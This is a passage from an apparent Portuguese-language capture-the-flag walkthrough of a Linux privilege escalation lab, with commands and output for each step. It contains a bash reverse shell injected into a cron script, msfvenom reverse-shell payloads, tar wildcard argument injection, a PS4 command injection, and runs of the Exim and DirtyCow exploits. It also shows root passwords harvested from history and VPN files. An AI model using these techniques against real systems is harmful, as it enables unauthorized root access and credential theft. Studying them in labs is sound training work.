Podemos ver que o arquivo `overwrite.sh` é executável e pode ser escrito por qualquer usuário. Vamos alterar o conteúdo do arquivo para que ele execute o comando `bash -i >& /dev/tcp/10.10.10.10/4444 0>&1` que abre uma shell reversa nós:

```bash
user@debian:~$ cat /usr/local/bin/overwrite.sh
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

Agora vamos usar o netcat para escutar na porta 4444 com o comando `nc -nvlp 4444` e esperar a shell reversa:

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop                                                                                                   07:01:19
╰──➤ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.18.20.23] from (UNKNOWN) [10.10.152.135] 40438
bash: no job control in this shell
root@debian:~# whoami
whoami
root
```

Antes de concluir temos que remover o conteúdo do arquivo `overwrite.sh` para que ele não seja executado novamente

E para concluir esse passo basta clicar no botão `Complete`.

---

## **<a id="9"> • Cron Jobs - PATH Environment Variable.</a>**

Nesse topico também vamos explorar a escalação de privilégios através de uma falha nas Cron jobs.

Ao analisar as `crontabs` do sistema, podemos ver a variável de ambiente começa com `/home/user` que é o diretório do usuário `user`.

```bash
user@debian:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
```

Sabendo disso podemos alterar o arquivo `overwrite.sh` para que ele copie o binário `/bin/bash` para o diretório `/tmp/rootbash` e altere as permissões para que ele possa ser executado:

```bash
user@debian:~$ cat /usr/local/bin/overwrite.sh
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

Devemos esperar um minuto para que o script seja executado e depois executar o binário `/tmp/rootbash` com a flag `-p` para que ele execute com as permissões do usuário `root`:


```bash
user@debian:/tmp$ ls
backup.tar.gz  rootbash  useless
user@debian:/tmp$ ./rootbash -p
rootbash-4.1# whoami
root
```

Agora vamos responder a pergunta "`What is the value of the PATH variable in /etc/crontab?`"
> /home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin



E para finalizar vamos remover o código modificado, remover o executável /tmp/rootbash e sair do shell elevado.7

```bash
rootbash-4.1# rm /tmp/rootbash
rootbash-4.1# echo "" > /home/user/overwrite.sh
rootbash-4.1# exit
exit
```

---

## **<a id="10"> • Cron Jobs - Wildcards.</a>**

Vamos dar uma olhada no conteudo do outro cronjob que está no arquivo `/usr/local/bin/compress.sh`:

```bash
user@debian:/tmp$ cat /usr/local/bin/compress.sh
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```

Esse script compacta todos os arquivos do diretório `/home/user` e salva no arquivo `/tmp/backup.tar.gz`.

Dando uma olhada na página **"GTFOBins"** e pesquisando `tar`. Descobrimos que o `tar` possui opções de linha de comando que permitem executar outros comandos como parte de um recurso de ponto de verificação.



Vamos então criar um payload que será executado quando o arquivo `/tmp/backup.tar.gz` for compactado e para isso vamos utilizar o `msfvenom`:

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop/linuxprivesc                                                                                      08:22:41
╰──➤ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.18.20.23 LPORT=4444 -f elf -o shell.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: shell.elf
```

Agora vamos enviar o playload para a maquina algo utilizando o `scp` e adicinar a permissão de execução para o arquivo:
```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop/linuxprivesc                                                                                      08:12:29
╰──➤ scp -oHostKeyAlgorithms=+ssh-rsa /root/Desktop/linuxprivesc/shell.elf user@10.10.84.63:/home/user/shell.elf
user@10.10.84.63's password:
shell.elf

user@debian:~$ chmod +x shell.elf
```

Vamos também criar um arquivo com o nome `--checkpoint=1` e `--checkpoint-action=exec=/home/user/shell.elf` para que o `tar` execute o arquivo `shell.elf` quando compactar o arquivo `backup.tar.gz`:

```bash
user@debian:~$ touch /home/user/--checkpoint=1
user@debian:~$ touch /home/user/--checkpoint-action=exec=shell.elf
```

<div class="page"/>

Dessa forma o arquivo `backup.tar.gz` será compactado e o arquivo `shell.elf` será executado.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop/linuxprivesc                                                                                      08:24:36
╰──➤ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.18.20.23] from (UNKNOWN) [10.10.84.63] 38198
whoami
root
```
Para finalizar vamos remover os arquivos criados, sair do shell elevado e clicar no botão `Complete`:

---

## **<a id="11"> • SUID / SGID Executables - Known Exploits.</a>**

Vamos procurar todos os executáveis `SUID/SGID` na VM Debian:   

```bash
user@debian:~$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
-rwxr-sr-x 1 root shadow 19528 Feb 15  2011 /usr/bin/expiry
-rwxr-sr-x 1 root ssh 108600 Apr  2  2014 /usr/bin/ssh-agent
-rwsr-xr-x 1 root root 37552 Feb 15  2011 /usr/bin/chsh
-rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudo
-rwxr-sr-x 1 root tty 11000 Jun 17  2010 /usr/bin/bsd-write
-rwxr-sr-x 1 root crontab 35040 Dec 18  2010 /usr/bin/crontab
-rwsr-xr-x 1 root root 32808 Feb 15  2011 /usr/bin/newgrp
-rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudoedit
-rwxr-sr-x 1 root shadow 56976 Feb 15  2011 /usr/bin/chage
-rwsr-xr-x 1 root root 43280 Feb 15  2011 /usr/bin/passwd
-rwsr-xr-x 1 root root 60208 Feb 15  2011 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 39856 Feb 15  2011 /usr/bin/chfn
-rwxr-sr-x 1 root tty 12000 Jan 25  2011 /usr/bin/wall
-rwsr-sr-x 1 root staff 9861 May 14  2017 /usr/local/bin/suid-so
-rwsr-sr-x 1 root staff 6883 May 14  2017 /usr/local/bin/suid-env
-rwsr-sr-x 1 root staff 6899 May 14  2017 /usr/local/bin/suid-env2
-rwsr-xr-x 1 root root 963691 May 13  2017 /usr/sbin/exim-4.84-3
-rwsr-xr-x 1 root root 6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10592 Feb 15  2016 /usr/lib/pt_chown
-rwsr-xr-x 1 root root 36640 Oct 14  2010 /bin/ping6
-rwsr-xr-x 1 root root 34248 Oct 14  2010 /bin/ping
-rwsr-xr-x 1 root root 78616 Jan 25  2011 /bin/mount
-rwsr-xr-x 1 root root 34024 Feb 15  2011 /bin/su
-rwsr-xr-x 1 root root 53648 Jan 25  2011 /bin/umount
-rwsr-sr-x 1 root root 926536 Mar  3 06:29 /tmp/rootbash
-rwxr-sr-x 1 root shadow 31864 Oct 17  2011 /sbin/unix_chkpwd
-rwsr-xr-x 1 root root 94992 Dec 13  2014 /sbin/mount.nfs
```

Note que o arquivo /usr/sbin/exim-4.84-3` é um executável `SUID` e `SGID` e que o usuário `root` é o dono do arquivo. Vamos verificar se o arquivo possui alguma vulnerabilidade conhecida:

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop/linuxprivesc                                                                                      08:31:55
╰──➤ searchsploit exim 4.84-3
--------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                       |  Path
--------------------------------------------------------------------- ---------------------------------
Exim 4.84-3 - Local Privilege Escalation                             | linux/local/39535.sh
Exim < 4.86.2 - Local Privilege Escalation                           | linux/local/39549.txt
Exim < 4.90.1 - 'base64d' Remote Code Execution                      | linux/remote/44571.py
PHPMailer < 5.2.20 with Exim MTA - Remote Code Execution             | php/webapps/42221.py
--------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Veja que existe um exploit para a versão 4.84-3 do `Exim`. Porém não precisamos baixar o exploit, pois ele já está na VM Debian em `/home/user/tools/suid/exim/cve-2016-1531.sh.`. Vamos executar o exploit:

```bash
user@debian:~$ /home/user/tools/suid/exim/cve-2016-1531.sh
[ CVE-2016-1531 local root exploit
sh-4.1# whoami
root
```

E para finalizar vamos cliclar no botão `Complete`.

---

## **<a id="12"> •SUID / SGID Executables - Shared Object Injection.</a>**

Ainda utilizando os arquivos `SUID/SGID` da VM Debian, temos o arquivo `/usr/local/bin/suid-so` que é um executável `SUID` e `SGID` e que o usuário `root` é o dono do arquivo. Esse arquivo é vulnerável a `Shared Object Injection`.

Quando executamos o arquivo `/usr/local/bin/suid-so` notamos que ele exibe uma barra de progresso antes de terminar a execução:

```bash
user@debian:~$ /usr/local/bin/suid-so
Calculating something, please wait...
[=====================================================================>] 99 %
Done.
```

Vamos executar o `strace` para verificar o que o arquivo está fazendo:

```bash
user@debian:~$ strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY)      = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libdl.so.2", O_RDONLY)       = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libm.so.6", O_RDONLY)        = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libc.so.6", O_RDONLY)        = 3
open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)
```

Note que o arquivo `/usr/local/bin/suid-so` está tentando abrir o arquivo `/home/user/.config/libcalc.so` e como esse arquivo não existe, o programa exibe a mensagem `No such file or directory`.

Então vamos criar o arquivo `/home/user/.config/libcalc.so`, para isso podemos usar o arquivo `/home/user/tools/suid/libcalc.c` que é um script que irá gerar um shell bash:

```bash
user@debian:~$ mkdir /home/user/.config
user@debian:~$ gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```

Agora vamos executar o arquivo `/usr/local/bin/suid-so` novamente:

```bash
user@debian:~$ /usr/local/bin/suid-so
Calculating something, please wait...
bash-4.1# whoami
root
```

E para finalizar vamos cliclar no botão `Complete`.

---

<div class="page"/>

## **<a id="13"> • SUID / SGID Executables - Environment Variables.</a>**

O executável `/usr/local/bin/suid-env` pode ser explorado por herdar a variável de ambiente PATH do usuário e tentar executar programas sem especificar um caminho absoluto.

Vamos executar o programa e ver o funcionamento dele:

```bash
user@debian:~$ /usr/local/bin/suid-env
[....] Starting web server: apache2httpd (pid 1659) already running
. ok
```

Vamos executar o `strings` para verificar o que o programa está fazendo:

```bash
user@debian:~$ strings /usr/local/bin/suid-env
/lib64/ld-linux-x86-64.so.2
5q;Xq
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
service apache2 start
```

Note que o programa está executando o comando `service apache2 start`, porém não especifica o caminho absoluto do programa `service`.

Sabendo disso vamos utilizar o programa `/home/user/tools/suid/service.c` que gera uma shell bash, mas antes disso temos que compilar o programa:

```bash
user@debian:~$ gcc -o service /home/user/tools/suid/service.c
user@debian:~$ ls
myvpn.ovpn  overwrite.sh  service  tools
```

<div class="page"/>

Agora temos que adicinar o diretório atual ao `PATH` e executar o programa `/usr/local/bin/suid-env` novamente:

```bash
user@debian:~$ export PATH="$PATH:/home/user"
user@debian:~$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/sbin:/usr/sbin:/usr/local/sbin:.:/home/user
user@debian:~$ /usr/local/bin/suid-env
[....] Starting web server: apache2httpd (pid 1659) already running
. ok
user@debian:~$ PATH=.:$PATH /usr/local/bin/suid-env
root@debian:~# whoami
root
```

E para finalizar vamos cliclar no botão `Complete`.

---

## **<a id="14"> • SUID / SGID Executables - Abusing Shell Features (#1).</a>**

Tambem temos o `/usr/local/bin/suid-env2` que é idêntico a /`usr/local/bin/suid-env`, porém ele usa o caminho absoluto do executável do serviço (/usr/sbin/service) para iniciar o servidor web apache2:

```bash
user@debian:~$ strings /usr/local/bin/suid-env2
/lib64/ld-linux-x86-64.so.2
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
/usr/sbin/service apache2 start
```

Nas versões do Bash < 4.2-048, é possível definir funções de shell com nomes que se assemelham a caminhos de arquivo e, em seguida, exportar essas funções para que sejam usadas em vez de qualquer executável real nesse caminho de arquivo.

Sabendo disso vamos verificar se a versão do Bash é menor que 4.2-048:

```bash
user@debian:~$ /bin/bash --version
GNU bash, version 4.1.5(1)-release (x86_64-pc-linux-gnu)
Copyright (C) 2009 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>

This is free software; you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
```

A versão do Bash é menor que 4.2-048, então vamos criar uma função Bash com o nome `/usr/sbin/service` que executa um novo shell Bash (usando -p para que as permissões sejam preservadas) e exporte a função:

```bash
user@debian:~$ function /usr/sbin/service { /bin/bash -p; }
user@debian:~$ export -f /usr/sbin/service
```

Agora vamos executar o programa `/usr/local/bin/suid-env2` novamente:

```bash
user@debian:~$ /usr/local/bin/suid-env2
root@debian:~# whoami
root
```

E para finalizar vamos cliclar no botão `Complete`.

---

## **<a id="15"> • SUID / SGID Executables - Abusing Shell Features (#2).</a>**

No modo de depuração, o Bash usa a variável de ambiente PS4 para exibir um prompt extra para instruções de depuração.


Sabendo disso vamos executar o programa `/usr/local/bin/suid-env2` com a depuração ativada e a variável de ambiente PS4 definida para executar o comando `cp /bin/bash /tmp/rootbash`:

```bash
root@debian:~# env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
/usr/sbin/service apache2 start
basename /usr/sbin/service
VERSION='service ver. 0.91-ubuntu1'
basename /usr/sbin/service
USAGE='Usage: service < option > | --status-all | [ service_name [ command | --full-restart ] ]'
SERVICE=
ACTION=
SERVICEDIR=/etc/init.d
OPTIONS=
'[' 2 -eq 0 ']'
cd /
'[' 2 -gt 0 ']'
case "${1}" in
'[' -z '' -a 2 -eq 1 -a apache2 = --status-all ']'
'[' 2 -eq 2 -a start = --full-restart ']'
'[' -z '' ']'
SERVICE=apache2
shift
'[' 1 -gt 0 ']'
case "${1}" in
'[' -z apache2 -a 1 -eq 1 -a start = --status-all ']'
'[' 1 -eq 2 -a '' = --full-restart ']'
'[' -z apache2 ']'
'[' -z '' ']'
ACTION=start
shift
'[' 0 -gt 0 ']'
'[' -r /etc/init/apache2.conf ']'
'[' -x /etc/init.d/apache2 ']'
exec env -i LANG= PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin TERM=dumb /etc/init.d/apache2 start
Starting web server: apache2httpd (pid 1659) already running
.
root@debian:~# whoami
root
```

E para finalizar vamos cliclar no botão `Complete`.

Lembrar de remover o arquivo `/tmp/rootbash`.

---

## **<a id="16"> • SUID / SGID Executables - Abusing Shell Features (#3).</a>**

Esse topico nos mostra que se um usuário acidentalmente digitar sua senha na linha de comando em vez de em um prompt de senha, ela poderá ser registrada em um arquivo de histórico.

Para verificarmos o contéudo dos arquivos de histórico, vamos utilizar o seguinte comando:

```bash
user@debian:~$ cat ~/.*history | more
ls -al
cat .bash_history
ls -al
mysql -h somehost.local -uroot -ppassword123
exit
cd /tmp
clear
ifconfig
netstat -antp
nano myvpn.ovpn
ls
exit
```

Note que um usuário tentou se conectar ao banco de dados MySQL com o usuário `root` e a senha `password123` e isso foi registrado no arquivo de histórico.

Com isso podemos tentar logar como root utilizando a senha `password123`:

```bash
user@debian:~$ su root
Password:
root@debian:/home/user# whoami
root
```

E para finalizar vamos responder a pergunta "`What is the full mysql command the user executed?`".
> mysql -h somehost.local -uroot -ppassword123



---

## **<a id="17"> • Passwords & Keys - Config Files.</a>**

Os arquivos de configuração podem conter senhas e chaves que podem ser usadas para acessar serviços e recursos.

Vamos listar o conteudo do diretório `/home/user`:

```bash
user@debian:~$ ls /home/user
myvpn.ovpn  overwrite.sh  service  tools
```

Vamos verificar o conteudo do arquivo `myvpn.ovpn`:

```bash
user@debian:~$ cat /home/user/myvpn.ovpn
client
dev tun
proto udp
remote 10.10.10.10 1194
resolv-retry infinite
nobind
persist-key
persist-tun
ca ca.crt
tls-client
remote-cert-tls server
auth-user-pass /etc/openvpn/auth.txt
comp-lzo
verb 1
reneg-sec 0
```

O arquivo `myvpn.ovpn` contém uma referência para o arquivo `/etc/openvpn/auth.txt` que contém o nome de usuário e a senha para se conectar ao servidor VPN.

Vamos verificar o conteudo do arquivo `/etc/openvpn/auth.txt`:

```bash
user@debian:~$ cat /etc/openvpn/auth.txt
root
password123
```

Agora que temos a senha podemos logar como root:

```bash
user@debian:~$ su root
Password:
user@debian:~$ whoami
root
```

E para finalizar vamos responder a pergunta "`What file did you find the root user's credentials in?`".
> /etc/openvpn/auth.txt



---

## **<a id="18"> • Passwords & Keys - SSH Keys.</a>**

Esse topico nos mostra que os usuários fazem backup de arquivos importantes, mas não conseguem proteger correctamente.

Vamos dar uma olhada nos diretórios e arquivos escondidos na raiz do sistema:

```bash
user@debian:~$ ls -la /
total 96
drwxr-xr-x 22 root root  4096 Aug 25  2019 .
drwxr-xr-x 22 root root  4096 Aug 25  2019 ..
drwxr-xr-x  2 root root  4096 Aug 25  2019 bin
drwxr-xr-x  3 root root  4096 May 12  2017 boot
drwxr-xr-x 12 root root  2820 Mar  3 05:09 dev
drwxr-xr-x 67 root root  4096 Mar  3 08:00 etc
drwxr-xr-x  3 root root  4096 May 15  2017 home
lrwxrwxrwx  1 root root    30 May 12  2017 initrd.img -> boot/initrd.img-2.6.32-5-amd64
drwxr-xr-x 12 root root 12288 May 14  2017 lib
lrwxrwxrwx  1 root root     4 May 12  2017 lib64 -> /lib
drwx------  2 root root 16384 May 12  2017 lost+found
drwxr-xr-x  3 root root  4096 May 12  2017 media
drwxr-xr-x  2 root root  4096 Jun 11  2014 mnt
drwxr-xr-x  2 root root  4096 May 12  2017 opt
dr-xr-xr-x 96 root root     0 Mar  3 05:06 proc
drwx------  5 root root  4096 May 15  2020 root
drwxr-xr-x  2 root root  4096 May 13  2017 sbin
drwxr-xr-x  2 root root  4096 Jul 21  2010 selinux
drwxr-xr-x  2 root root  4096 May 12  2017 srv
drwxr-xr-x  2 root root  4096 Aug 25  2019 .ssh
drwxr-xr-x 13 root root     0 Mar  3 05:06 sys
drwxrwxrwt  2 root root  4096 Mar  3 08:21 tmp
drwxr-xr-x 11 root root  4096 May 13  2017 usr
drwxr-xr-x 14 root root  4096 May 13  2017 var
lrwxrwxrwx  1 root root    27 May 12  2017 vmlinuz -> boot/vmlinuz-2.6.32-5-amd64
```

Note que temos um diretório chamado `.ssh` que contém um arquivo chamado `root_key`.

```bash
user@debian:~$ ls -l /.ssh
total 4
-rw-r--r-- 1 root root 1679 Aug 25  2019 root_key
```

Essa chave aparenta ser a chave ssh do usuário root. Vamos copiar a chave para nosso computador e tentar logar como root.

Para copiar a chave basta ler o conteudo do arquivo e copiar o conteudo para um arquivo local

Para utilizar a chave precisamos alterar as permissões do arquivo para que ele possa ser utilizado:

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop/linuxprivesc                                                                                      10:29:33
╰──➤ chmod 600 root.key
```

Agora vamos tentar logar como root utilizando a chave ssh:

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop/linuxprivesc                                                                                      10:30:33
╰──➤ ssh -i root.key -oPubkeyAcceptedKeyTypes=+ssh-rsa -oHostKeyAlgorithms=+ssh-rsa root@10.10.84.63
Linux debian 2.6.32-5-amd64 #1 SMP Tue May 13 16:34:35 UTC 2014 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 25 14:02:49 2019 from 192.168.1.2
root@debian:~# whoami
root
```

Agora basta clicar em `Completed` para finalizar o topico.

---

## **<a id="19"> • NFS.</a>**

Os arquivos criados via NFS herdam o ID do usuário remoto. Se o usuário for root e o root squashing estiver ativado, o ID será definido como o usuário "nobody".

Sabendo disso vamos verificar a configuração do compartilhamento NFS:

```bash
user@debian:/.ssh$ cat /etc/exports
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#

/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)

#/tmp *(rw,sync,insecure,no_subtree_check)
```

Note que o diretório `/tmp` está sendo compartilhado via NFS. Vamos montar o diretório remoto em nosso computador:

```bash
╭─[LAPTOP-HRI3FQ3J] as root in /tmp                                                                                                        10:44:03
╰──➤ mount -o rw,vers=3 10.10.84.63:/tmp /tmp/nfs

╭─[LAPTOP-HRI3FQ3J] as root in /tmp                                                                                                        10:44:19
╰──➤ cd nfs

╭─[LAPTOP-HRI3FQ3J] as root in /tmp/nfs                                                                                                    10:44:23
╰──➤ ls
backup.tar.gz  rootbash  root.pm  useless
```

<div class="page"/>

Agora usando o `msfvenom` vamos gerar um payload e salvar no diretório remoto:

```bash
╭─[LAPTOP-HRI3FQ3J] as root in /tmp/nfs                                                                                                    10:46:17
╰──➤ msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 48 bytes
Final size of elf file: 132 bytes
Saved as: /tmp/nfs/shell.elf
```

Vamos mudar as permissões do arquivo para que ele possa ser executado:

```bash
╭─[LAPTOP-HRI3FQ3J] as root in /tmp/nfs                                                                                                    10:47:10
╰──➤ chmod +xs /tmp/nfs/shell.elf
```

Agora na maquina alvo vamos executar o arquivo:

```bash
user@debian:/.ssh$ /tmp/shell.elf
bash-4.1# whoami
root
```

E para completar o topico temos que responder a pergunta "`What is the name of the option that disables root squashing?`"
> `no_root_squash`

---

## **<a id="20"> • Kernel Exploits.</a>**

Esse topicos nos ensina que as explorações do kernel podem deixar o sistema em um estado instável, e é por isso devemos executá-las como último recurso.

Vamos executar a ferramenta `Linux Exploit Suggester 2` para identificar se existe algum kernel exploits disponivel para a versão do kernel que estamos utilizando:

```bash
user@debian:/.ssh$ perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl

  #############################
    Linux Exploit Suggester 2
  #############################

  Local Kernel: 2.6.32
  Searching 72 exploits...

  Possible Exploits
  [1] american-sign-language
      CVE-2010-4347
      Source: http://www.securityfocus.com/bid/45408
  [2] can_bcm
      CVE-2010-2959
      Source: http://www.exploit-db.com/exploits/14814
  [3] dirty_cow
      CVE-2016-5195
      Source: http://www.exploit-db.com/exploits/40616
  [4] exploit_x
      CVE-2018-14665
      Source: http://www.exploit-db.com/exploits/45697
  [5] half_nelson1
      Alt: econet       CVE-2010-3848
      Source: http://www.exploit-db.com/exploits/17787
  [6] half_nelson2
      Alt: econet       CVE-2010-3850
      Source: http://www.exploit-db.com/exploits/17787
  [7] half_nelson3
      Alt: econet       CVE-2010-4073
      Source: http://www.exploit-db.com/exploits/17787
  [8] msr
      CVE-2013-0268
      Source: http://www.exploit-db.com/exploits/27297
  [9] pktcdvd
      CVE-2010-3437
      Source: http://www.exploit-db.com/exploits/15150
  [10] ptrace_kmod2
      Alt: ia32syscall,robert_you_suck       CVE-2010-3301
      Source: http://www.exploit-db.com/exploits/15023
  [11] rawmodePTY
      CVE-2014-0196
      Source: http://packetstormsecurity.com/files/download/126603/cve-2014-0196-md.c
  [12] rds
      CVE-2010-3904
      Source: http://www.exploit-db.com/exploits/15285
  [13] reiserfs
      CVE-2010-1146
      Source: http://www.exploit-db.com/exploits/12130
  [14] video4linux
      CVE-2010-3081
      Source: http://www.exploit-db.com/exploits/15024
```

Vamos verificar o exploit `dirty_cow` e para isso vamos utilizar o programa `/home/user/tools/kernel-exploits/dirtycow/c0w.c`.Ele substitui o arquivo SUID `/usr/bin/passwd` por um que gera um shell (um backup de `/usr/bin/passwd` é feito em `/tmp/bak`).

Então vamos compilar o código e executar o exploit:

```bash
user@debian:~$ gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
user@debian:~$ ls
c0w  myvpn.ovpn  overwrite.sh  service  tools
user@debian:~$ ./c0w

   (___)
   (o o)_____/
    @@ `     \
     \ ____, //usr/bin/passwd
     //    //
    ^^    ^^
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
mmap 8f159000

madvise 0

ptrace 0
```

Ao terminar a execução do exploit, vamos executar o arquivo `/usr/bin/passwd` que foi substituido:

```bash
user@debian:~$ /usr/bin/passwd
root@debian:/home/user# whoami
root
```

E para completar esse topico basta clicar no botão `Completed`.

Também temos que restaurar o arquivo `/usr/bin/passwd` para o seu estado original:

```bash
root@debian:/home/user# mv /tmp/bak /usr/bin/passwd
```

---


## **<a id="21"> • Privilege Escalation Scripts.</a>**

Nesse topico nos é aprensentado um diretório chamado `/home/user/tools/privesc-scripts` que contem alguns scripts para auxiliar na escalada de privilégios. São eles:

1. **LinEnum.sh:**
 
   *LinEnum.sh* foi projetado para automatizar a coleta de informações sobre um sistema Linux e identificar possíveis pontos fracos na segurança. O script é executado como um usuário comum e tenta enumerar informações sobre o sistema, como as versões do kernel, serviços em execução, permissões de arquivos, usuários e grupos, etc.

   O *LinEnum.sh* também inclui vários módulos adicionais que podem ser usados para executar testes de penetração em potencial e identificar vulnerabilidades. Esses módulos incluem verificação de arquivos comuns de senhas, verificação de configurações de serviços, verificação de permissões de arquivos e diretórios, verificação de programas comuns de backdoor e muito mais.

   O objetivo principal do *LinEnum.sh* é ajudar a identificar possíveis pontos fracos em um sistema Linux e fornecer informações úteis para um administrador de sistema ou um testador de penetração. No entanto, é importante lembrar que o uso do *LinEnum.sh* em um sistema sem permissão explícita é considerado uma atividade ilegal e pode resultar em sérias consequências legais.

2. **linpeas.sh:**
   
   *Linpeas.sh* foi projetado para ajudar na coleta de informações e na identificação de possíveis vulnerabilidades de segurança em um sistema Linux. O script é executado como um usuário comum e tenta coletar informações sobre o sistema, como serviços em execução, versões de software, permissões de arquivos, usuários e grupos, etc.

   O *linpeas.sh* também inclui módulos adicionais que podem ser usados para identificar vulnerabilidades específicas, como a presença de arquivos SUID, arquivos e diretórios com permissões inadequadas, configurações de firewall, entre outros. Ele também possui recursos para identificar a presença de malware ou backdoors em um sistema.

